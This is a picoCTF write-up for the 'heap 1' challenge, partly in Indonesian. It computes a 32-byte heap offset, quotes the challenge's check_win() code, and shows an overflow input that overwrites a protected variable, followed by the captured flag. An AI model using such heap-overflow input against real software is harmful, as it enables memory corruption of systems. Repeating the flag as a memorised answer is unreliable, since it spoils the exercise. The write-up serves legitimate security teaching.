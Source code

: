 <h1>heap 1</h1>
<h3>Description</h3>
  <p>Can you control your overflow?
Download the binary <a href="https://artifacts.picoctf.net/c_tethys/35/chall">here</a>.
Download the source <a href="https://artifacts.picoctf.net/c_tethys/35/chall.c">here</a>.
Additional details will be available after launching your challenge instance.</p>
<h3>Solution</h3>
<pre>
  Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x55c13d41d6b0  ->   pico
+-------------+----------------+
[*]   0x55c13d41d6d0  ->   bico
+-------------+----------------+
</pre>
<p>Selisih address variabel "pico" dan "bico" = 32</p>

```
>>> 0x55c13d41d6b0-0x55c13d41d6d0
-32
```
<p>Fungsi check_win()</p>

```c
void check_win() {
    if (!strcmp(safe_var, "pico")) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
    }
}
```
<p>submit inputan 32 string + "pico"</p>

```console
1. Print Heap:		(print the current state of the heap)
2. Write to buffer:	(write to your own personal block of data on the heap)
3. Print safe_var:	(I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:		(Try to print the flag, good luck)
5. Exit

Enter your choice: 2
Data for buffer: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaapico

1. Print Heap:		(print the current state of the heap)
2. Write to buffer:	(write to your own personal block of data on the heap)
3. Print safe_var:	(I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:		(Try to print the flag, good luck)
5. Exit

Enter your choice: 3


Take a look at my variable: safe_var = pico


1. Print Heap:		(print the current state of the heap)
2. Write to buffer:	(write to your own personal block of data on the heap)
3. Print safe_var:	(I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:		(Try to print the flag, good luck)
5. Exit

Enter your choice: 4

YOU WIN
picoCTF{starting_to_get_the_hang_b9064d7c}
```
<h3>Flag</h3>
<pre>
  picoCTF{starting_to_get_the_hang_b9064d7c}
</pre>
